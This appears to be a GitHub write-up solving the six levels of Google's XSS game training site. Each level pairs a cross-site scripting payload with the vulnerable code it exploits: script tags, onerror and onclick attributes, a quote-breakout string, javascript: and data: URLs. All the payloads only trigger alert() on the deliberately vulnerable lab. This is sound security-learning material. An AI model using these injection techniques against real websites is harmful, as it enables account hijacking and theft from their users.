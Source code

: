 ## 1

### How to trigger the vulnerability?
```html
<script>alert()</script>
```

### Where is the vulnerable code?
In [level1.py](source-code/level-1.py), the input strings are directly being rendered without any escaping or validation.

```python
message = "Sorry, no results were found for <b>" + query + "</b>."

self.render_string(page_header + message + page_footer)

def render_string(self, s):
    self.response.out.write(s)
```

## 2

### How to inject Javascript code?
Since simply using `<script>...</script>` will not work in this case, we need to find other ways to inject Javascript code.

Some options:

```html
<a href="#" onclick="alert()">Click Me To Exploit!</a>
```

```html
<img src="hahaa" onerror="alert()">
```

### Analysis

Any content of post is displayed without escaping. Therefore, we can use "onclick" or "onerror" to execut a script.

## 3

### How to exploit?
In this level I've come up with two ways to exploit the xss vulnerabilities.

First, modify the URL such that the image will not be displayed and thus trigger the `onerror` event which we injected.
```url
https://xss-game.appspot.com/level3/frame#4' onerror="alert()" alt='exploited_image
```
An alternative solution will be the web page as normal render the correct image (for example, 3.jpg), but this time we add the `onClick` event into the image. So the injected JS code will be triggered when the user click that correctly displayed image.
```url
https://xss-game.appspot.com/level3/frame#1.jpg' onClick="alert()" alt='will_not_display
```


### Vulnerable Code

The vulnerable code appears at Line17 of [index.html](/source_code/level-3/index.html) file. This allows attacker to inject Javascript code using `onerror` event in the `img` tag.
```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

After injecting the above url, the `img` tag of the html file will be rendered as
```html
<img src='/static/level3/cloud/4' onerror="alert()" alt='exploited_image.jpg' />
```
---
#### *NOTICE*:
The image is stored inside the database as `1.jpg`. So if you modify the image tag as
```html
<img src='/static/level3/cloud/1.jpg' onerror="alert()" alt='will_not_display.jpg' />
```
will NOT trigger the `onerror` event.

Just delete the `.jpg` extension will make the image un-displayable and thus trigger the `onerror` event :)

## 4

### How to exploit?
Input the following weird string to become the timer!
```
3');alert('
```

### Analysis
In this case, the vulnerable code locates at line 21 of the  [timer.html](/source_code/level-3/timer.html) file.

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

With proper numerical input, the `onload` event execute the function `startTimer('3');` without any problem. In this case, `3` is the type of string, and will eventually be parsed as integer (`parseInt`) in the startTimer function.

Thus, we can utilize the `onload` event to add additional javascript code! If our input is OUR_INPUT_STRING, the `startTimer` function will look like this:
```js
onload="startTimer('OUR_INPUT_STRING')"
```

If we intentionally set our input to be `3');`, some magical things then happen! We have manually escaped the startTimer function! In this case, the onload event looks like this:
```js
// I intentionally make a space after the `;` of startTimer function. Just to make things clearer :)
onload="startTimer('3'); ')"
```
The remaining `');'` is "auto-filled" by the program, so the remaining thing we need to do is to add `alert('` after our above-mentioned tricky string. Now we have successfully injected the javascript code into the web page!

The **injected** `onload` event will become like this:
```js
onload="startTimer('3');alert('')"
```

## 5

### How to exploit?
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('')
```

In the `signup` page, change the value of the `next` parameter in the URL. Use `javascipt:alert()` instead of "confirm"!

So the URL for our exploitation will become
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```

*NOTICE*: After you forge the URL in this case, you need to **click the GO button first**, then entering your mail and clicking the Next button. Only in this case will make that forged URL valid. After that, enjoy the result javascript alert popping up :)

### Analysis

After changing the content of "next" parameter, behavior of the next button will be modified, which is defined in line 15 of signup.html:
```html
<a href="{{ next }}">Next >></a>
```

Javascript code inserted in the parameter will be executed after clicking the next button.

## 6

### Exploit Code

```html
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

Another way to work...
```html
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('')
```

### Analysis

Function includeGadget(url) prevents client from loading a 'http' url, but leaves other data formats unchecked. We can load a text which contains javascript code, or a url without 'http'.
